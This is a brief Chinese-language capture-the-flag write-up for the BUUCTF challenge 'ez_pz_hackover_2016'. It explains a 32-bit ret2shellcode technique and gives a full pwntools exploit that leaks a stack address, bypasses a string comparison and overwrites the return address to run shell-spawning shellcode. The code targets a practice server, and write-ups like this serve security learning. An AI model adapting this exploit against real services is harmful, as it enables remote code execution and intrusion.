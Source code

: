 # 分析

来自[BUUCTF在线评测 (buuoj.cn)](https://buuoj.cn/challenges#ez_pz_hackover_2016)

这是一道`ret2shellcode(32)`，进行比较绕过，然后计算出shellcode的偏移地址。

checksec一下，



# exp

```python
from pwn import *
context(os="linux",arch="i386",log_level="debug")
p=remote('node5.buuoj.cn',27809)
#p=process('./ez_pz_hackover_2016')
p.recvuntil("0x")
stack=int(p.recv(8),16)
print(hex(stack))
p.recvuntil(b"> ")
# gdb.attach(p)
shellcode=asm(shellcraft.sh())
pause()
payload=flat(b'crashme\x00',b'a'*(0x16-0x4),p32(stack-0x1c),shellcode)
p.sendline(payload)
p.interactive()
```

